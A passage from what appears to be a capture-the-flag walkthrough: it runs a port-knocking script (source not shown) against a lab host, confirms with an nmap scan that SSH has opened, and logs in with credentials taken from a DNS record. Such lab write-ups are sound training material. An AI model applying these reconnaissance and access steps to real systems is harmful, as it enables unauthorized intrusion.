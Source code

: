 

Now, run the script:



    root@kali# ./open_portal_to_Hades.py
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    [+] Portal should be open.
    Run:
    ssh prometheus@10.10.10.83
    password: St34l_th3_F1re!



And check nmap again... ssh is open:



    Nmap done: 1 IP address (1 host up) scanned in 15.81 seconds
    root@kali# nmap -p- -sT --min-rate 5000 10.10.10.83
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-21 21:15 EDT
    Nmap scan report for 10.10.10.83
    Host is up (0.095s latency).
    Not shown: 65531 closed ports
    PORT     STATE SERVICE
    22/tcp   open  ssh
    53/tcp   open  domain
    80/tcp   open  http
    2222/tcp open  EtherNetIP-1



Now we can ssh in, trying the credentials from the txt record:



    root@kali# ./open_portal_to_Hades.py && ssh prometheus@10.10.10.83
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    [+] Portal should be open.
    Run:
    ssh prometheus@10.10.10.83
    password: St34l_th3_F1re!
    prometheus@10.10.10.83's password:

    Welcome to

        )         (
     ( /(     )   )\ )   (
     )\()) ( /(  (()/(  ))\ (
    ((_)\  )(_))  ((_))/((_))\
    | |(_)((_)_   _| |(_)) ((_)
    | ' \ / _` |/ _` |/ -_)(_-<
    |_||_|\__,_|\__,_|\___|/__/
